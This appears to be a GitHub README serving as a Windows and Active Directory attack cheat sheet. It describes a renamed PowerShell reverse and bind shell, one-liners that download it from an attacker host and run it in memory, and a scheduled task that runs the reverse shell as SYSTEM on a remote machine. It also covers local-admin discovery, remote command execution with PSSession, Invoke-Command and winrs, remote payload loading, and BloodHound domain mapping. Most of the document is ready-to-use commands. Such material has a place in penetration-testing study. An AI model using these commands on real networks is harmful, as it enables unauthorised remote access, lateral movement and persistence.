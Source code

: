 - [`Invoke-PowerShellTcp.ps1`](#-invoke-powershelltcpps1-)
- [`Find-PSRemotingLocalAdminAccess.ps1`](#-find-psremotinglocaladminaccessps1-)
- [`Find-WMILocalAdminAccess.ps1`](#-find-wmilocaladminaccessps1-)
- [Enter-PSSession (cmdlet)](#enter-pssession--cmdlet-)
- [Invoke-Command (cmdlet)](#invoke-command--cmdlet-)
- [WinRS.exe](#winrsexe)
- [Loader.exe](#loaderexe)
- [Task Scheduling](#task-scheduling)
- [File Copy Using Powershell](#file-copy-using-powershell)
- [BloodHound](#bloodhound)


### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
### File Copy Using Powershell
```powershell
# From a URL to a file
C:> iwr http://<IP>/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
